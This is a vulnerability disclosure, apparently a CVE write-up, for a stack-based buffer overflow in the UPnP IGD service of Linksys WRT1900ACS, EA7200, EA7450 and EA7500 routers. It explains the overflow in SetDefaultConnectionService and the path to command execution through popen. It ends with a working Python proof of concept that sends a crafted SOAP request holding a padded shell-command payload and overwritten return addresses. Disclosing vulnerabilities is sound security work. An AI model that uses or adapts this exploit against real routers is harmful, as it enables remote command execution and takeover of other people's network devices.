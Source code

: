 # Linksys Vulnerability

Vendor:Linksys

Product:WRT1900ACS,EA7200,EA7450 ,EA7500



Version:

WRT1900ACS(Ver. 2.0.3.201002)

EA7200(Ver. 1.0.3.20817933.9)

EA7450(Ver. 1.0.4.208179)

EA7500(Ver. 3.0.1.207964)



Type:

Stack-based Buffer Overflow



## Vulnerability description

I found a stack overflow vulnerability in Linksys routers. This vulnerability can be used with the popen function to execute arbitrary commands.

In `IGD` binary:

In `SetDefaultConnectionService` function, `NewDefaultConnectionService` is directly passed by the attacker,When using this parameter, strncpy is used directly for copying, causing a stack overflow.

![](https://github.com/feiwuxingxie/cve/blob/main/1.2.png)

![image](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.2.png)


![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.1.png)

Function sub_189BC return with `POP {R4-R8,LR}`.And this binary file contains the popen function, and the parameters are controllable,  we can  execute any command.

![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.3.png)



## Poc

```python
import socket

ip="192.168.17.132"
port="49152"

payload='touch /tmp/flag;touch /tmp/flag;sleep 50#'
payload=payload.rjust(0x12c,' ')+'\xd0\x29\x90\xb1'*5+'\x78\x70'

junk='b'*0x1000

file_content='''
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"> <s:Body> <u:SetDefaultConnectionService xmlns:u="urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"><NewDefaultConnectionService>{}</NewDefaultConnectionService><NewConnectionService>{}</NewConnectionService></u:SetDefaultConnectionService></s:Body></s:Envelope>
'''.format(payload,junk)

content_len=len(file_content)


template = f'''POST /upnp/control/Layer3Forwarding HTTP/1.1
Host: {ip}:{port}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.4.1688139926.1746780008; _ga_BDYNZJT6JR=GS2.4.s1748393176$o15$g0$t1748393176$j60$l0$h0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;
SOAPACTION: "urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"
Content-Length: {content_len}

{file_content}
'''.replace('\n', '\r\n')
#print(template)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, int(port)))
sock.sendall(template.encode('latin-1'))

data=sock.recv(4096)
print(data)

```

